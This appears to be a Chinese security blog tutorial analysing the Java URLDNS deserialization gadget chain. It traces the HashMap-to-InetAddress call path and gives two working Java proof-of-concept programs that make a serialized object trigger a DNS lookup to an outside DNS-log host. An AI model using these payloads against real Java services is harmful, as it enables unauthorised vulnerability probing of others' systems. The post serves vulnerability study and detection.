





# URLDNS利用链分析

## 前言

`URLDNS`是相对于其他利用链较为简单的一条`gadget`利用链，由于`URLDNS`不依赖与其他第三方库，且不限制`jdk`版本，所以常常用来检测程序是否存在反序列化漏洞。

`URLDNS`的特点：只能发送`DNS`请求，不能执行其他任何命令。

## 利用链分析

问题出在`HashMap`的`readObject()`方法中，我们看一下源码，在最后传进的`putVal()`方法中对`key`进行了`hash()`计算


跟进`hash()`方法，接着会调用传进来的`key`的`hashCode()`的方法


因为我们传进来的`key`是`URL`对象，因此接着跟进`URL`类的`hashCode()`方法，这里对`hackCode`参数的值进行了判断，需要满足等于`-1`的条件


继续跟进`hashCode = handler.hashCode(this);`中的`hashCode()`方法，该方法里面调用了`getHostAddress()`方法


继续跟进`getHostAddress()`方法，发现调用了`InetAddress.getByName(host);`方法


`InetAddress.getByName(host)`：只需要传入目标主机的名字，`InetAddress`会尝试做连接DNS服务器，并且获取IP地址的操作。

因此在此处发起了一次`DNS`请求，总结`URLDNS`利用链如下：
```
HashMap --> readObject()
HashMap --> putVal()
HashMap --> hash()
URL     --> hashCode()
URLStreamHandler --> hashCode()
URLStreamHandler --> getHostAddress()
InetAddress      --> InetAddress.getByName()
```

构造 POC 如下：
```java
package com.serialize;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

/**
 * Created by dotast on 2022/9/18 22:43
 */
public class URLDNS {
    public static void main(String[] args) throws Exception{
        URLDNS urldns = new URLDNS();
        urldns.serialize();
        urldns.unserialize();
    }

    public void serialize() throws Exception {
        HashMap map = new HashMap<>();
        URL url = new URL("http://c62a1767.dns.1433.eu.org");
        Class cls = Class.forName("java.net.URL");
        Field hashCode = cls.getDeclaredField("hashCode");
        hashCode.setAccessible(true);
        map.put(url, "dotast");
        hashCode.set(url, -1);
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(map);
    }

    public void unserialize() throws Exception{
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }

}
```

成功发送了 DNS 请求


## 为什么发送了两次请求？

可以看到上图中的结果显示一共发送了两次请求，调试后发现`HashMap.put()`方法也会调用一次`putVal()`方法


为了规避实际环境中产生误判的情况，我们需要消除掉这一次多余的`DNS`请求。

我们在`put()`方法前先设置`hashCode`字段值不为`-1`就可以不进入`hashCode = handler.hashCode(this);`语句里，就可避免发送`DNS`请求。

最终 POC 如下：
```java
package com.serialize;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

/**
 * Created by dotast on 2022/9/18 22:43
 */
public class URLDNS {
    public static void main(String[] args) throws Exception{
        URLDNS urldns = new URLDNS();
        urldns.serialize();
        urldns.unserialize();
    }

    public void serialize() throws Exception {
        HashMap map = new HashMap<>();
        URL url = new URL("http://4b9cc854.dns.1433.eu.org");
        Class cls = Class.forName("java.net.URL");
        Field hashCode = cls.getDeclaredField("hashCode");
        hashCode.setAccessible(true);
        hashCode.set(url, 666);
        map.put(url, "dotast");
        hashCode.set(url, -1);
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(map);
    }

    public void unserialize() throws Exception{
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }

}
```


